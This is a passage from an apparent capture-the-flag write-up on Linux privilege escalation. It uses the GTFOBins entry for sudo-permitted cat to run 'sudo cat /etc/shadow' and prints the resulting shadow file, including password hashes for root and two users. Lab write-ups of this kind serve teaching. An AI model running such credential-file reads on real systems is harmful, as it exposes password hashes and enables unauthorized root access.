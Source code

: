 We can use gtfobin to see how we can leverage our sudo privilege

![Desktop View](/assets/images/brute-it/sudo-cat.png){: width="972" height="589" }

We can use cat to view the `shadow` and `passwd` file and add our own user to escalate our privilege to root.

```bash
sudo cat /etc/shadow
```

```bash
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::
```
